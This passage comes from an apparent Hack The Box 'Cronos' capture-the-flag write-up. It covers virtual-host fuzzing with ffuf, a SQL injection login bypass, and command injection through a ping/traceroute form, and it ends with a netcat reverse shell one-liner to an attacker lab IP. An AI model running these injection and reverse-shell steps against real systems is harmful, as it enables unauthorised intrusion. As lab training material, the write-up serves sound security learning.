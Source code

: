 ```bash
/server-status        (Status: 403) [Size: 298]
/web.config           (Status: 200) [Size: 914]
Progress: 36904 / 36920 (99.96%)
===============================================================
2023/07/25 15:43:27 Finished
===============================================================
```

The results are worthless, so the only thing we can do is to see if there are more virtual hosts with ffuf.

First I started without the -fw flag, and I see that the default responses have always 3534 words

```bash
ffuf -u http://10.10.10.13 -H "Host: FUZZ.cronos.htb" -w ~/Documents/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -mc all -fw 3534  -o vhost | tee vhost.save
```

```bash
   1   │ [Status: 200, Size: 2319, Words: 990, Lines: 86, Duration: 121ms]
   2   │     * FUZZ: www
   3   │
   4   │ [Status: 200, Size: 1547, Words: 525, Lines: 57, Duration: 2196ms]
   5   │     * FUZZ: admin
```

As the results shows admin, let’s see what we have at `admin.cronos.htb` but before we need to put it at `etc/hosts` file

![Untitled](/HTB/cronos-3.png)

It’s a login page and seems so bad constructed

## Exploiting

First I am going to try the common credentials but nothing is working.

The login page seem pretty vulnerable to SQLi so I tried a very simple injection

![Untitled](/HTB/cronos-4.png)

We have gain access as admin.

![Untitled](/HTB/cronos-5.png)

Once inside, we found a text box to execute **ping** or **traceroute** commands in the remote machine. 

![Untitled](/HTB/cronos-6.png)

This smells like command injection, so I tried to put commands between two semicolons in order to execute them in the remote machine.

Now, let’s set a nc listener and send a simple reverse shell with nc.

```bash
nc -e /bin/sh 10.10.14.20 4444
```
